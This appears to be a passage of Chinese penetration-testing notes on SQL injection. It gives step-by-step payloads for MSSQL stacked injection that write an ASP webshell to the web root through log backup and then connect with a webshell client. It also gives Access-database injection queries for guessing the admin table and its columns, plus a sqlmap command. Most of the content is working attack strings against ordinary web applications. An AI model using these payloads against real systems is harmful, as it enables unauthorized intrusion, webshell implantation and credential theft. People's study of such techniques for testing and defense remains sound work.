[http://xxxxx/show.asp?code=1](http://xxxxx/show.asp?code=1)';insert into tt(a) values(’<%eval request(“abc”) %>’) –

values中的内容一般转换为马子的hex值。

(5) 再次备份日志

[http://xxxxx/show.asp?code=1](http://xxxxx/show.asp?code=1)';backup log ahykd\_new to disk=‘e:\\xampp\\htdocs\\dvwa\\1.aspx’ –

再次备份日志，备份路径为网站服务器的物理路径

(6) 删除表

[http://xxxxx/show.aspx?code=1](http://xxxxx/show.aspx?code=1)';drop table tt –

然后菜刀尝试连接[http://xxxxx/1.aspx](http://xxxxx/1.aspx)

参考文章：这里是借鉴大佬的笔记的总结

[https://www.yuque.com/aufeng/aufeng\_good/iganif#Q5PqT](https://www.yuque.com/aufeng/aufeng_good/iganif#Q5PqT)

[https://www.cnblogs.com/vigarbuaa/p/3371500.html](https://www.cnblogs.com/vigarbuaa/p/3371500.html)

## Access注入

Access数据库没有记录所有表名和列名的表，也就意味着我们需要依靠字典进行猜解表名和列

Access数据库中没有注释符号.因此 /\*\*/ 、 -- 和 # 都没法使用。

sqlmap语句：python sqlmap.py -u "[http://test.com/1.asp?id=1](http://test.com/1.asp?id=1)" --tables

### 普通注入

判断注入点

在参数后面加 单引号

http://www.example.com/new\_list.asp?id=1' # 页面报错

http://www.example.com/new\_list.asp?id=1 and 1=1 # 页面正常

http://www.example.com/new\_list.asp?id=1 and 1=2 # 页面报错

猜字段： 1 order by 4 报错 1 order by 3 正确

### 有回显：

?id=-1 union select 1,2,3,4,5,6,7,8,9,10 from admin（此时页面有显示2、3）

查列：and exists (select 列名 from 表名) （假设存在user、password）

?id=3 and exists (select \* from test)

?id=3 and exists (select \* from admin)

?id=3 and exists (select name from admin) 报错，说明不存在

?id=3 and exists (select username from admin) 说明存在username
